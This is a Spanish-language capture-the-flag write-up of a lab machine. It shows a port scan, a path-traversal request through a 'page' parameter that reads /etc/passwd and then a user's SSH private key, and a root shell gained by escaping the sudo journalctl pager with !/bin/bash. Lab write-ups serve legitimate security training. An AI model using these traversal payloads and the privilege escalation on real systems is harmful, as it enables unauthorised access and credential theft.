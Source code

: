 # LFI
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:b9:f0:d3:e4:b3:17:9c:7f:b6:7d:28:72:8a:e4:77 (RSA)
|   256 07:f2:d9:85:77:74:52:2a:73:76:70:35:73:70:c3:9e (ECDSA)
|_  256 23:ba:e8:b6:8b:a2:ac:58:3b:f4:04:dc:6e:36:b7:f2 (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.1 Python/3.6.9
```
## Enum
### HTTP
Viendo como se seleccionan los archivos a mostrar en la web parece que tenemos un vector de entrada viable, ya que parece que se usa un script en php al que se le pasa el nombre del archivo directamente
```
http://10.10.151.167/home?page=about.html
```
## Exploit
Podemos intentar cambiar el archivo al que se accede directamente en la URL
```
http://10.10.151.167/home?page=../../etc/passwd
```
Asi podemos acceder a /etc/passwd y conocer los nombres de usuario con acceso via shell
```
root:x:0:0:root:/root:/bin/bash
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```
No tenemos cookies de PHPSESSION por lo que no podemos usar el truco de la PHPSESION para el RCE, veamos si hay algun archivo sensible en el /home de Falcon, veamos si tiene un id_rsa e la ubicación por defecto
```
http://10.10.151.167/home?page=../../home/falcon/.ssh/id_rsa
```
Copiamos la clave y creamos el archivo en local, nos conectamos usandola como falcon via ssh

## Privesc
```
User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
```
Ejecutamso el comando y cuando salte el paginador less podemos invocar una sehll
```
sudo /bin/journalctl 
-- Logs begin at Tue 2020-01-28 19:00:21 IST, end at Thu 2020-09-10 18:29:32 IST. --
Jan 28 19:00:21 walk kernel: Linux version 4.15.0-20-generic (buildd@lgw01-amd64-039) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP T
Jan 28 19:00:21 walk kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-20-generic root=UUID=979754d8-4db7-4b66-a804-28a498c1cc0f ro
Jan 28 19:00:21 walk kernel: KERNEL supported cpus:
Jan 28 19:00:21 walk kernel:   Intel GenuineIntel
Jan 28 19:00:21 walk kernel:   AMD AuthenticAMD
Jan 28 19:00:21 walk kernel:   Centaur CentaurHauls
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x001: 'x87 floating point registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x002: 'SSE registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x004: 'AVX registers'
Jan 28 19:00:21 walk kernel: x86/fpu: xstate_offset[2]:  576, xstate_sizes[2]:  256
Jan 28 19:00:21 walk kernel: x86/fpu: Enabled xstate features 0x7, context size is 832 bytes, using 'standard' format.
!/bin/bash
```
Con esto tenemos shell como root
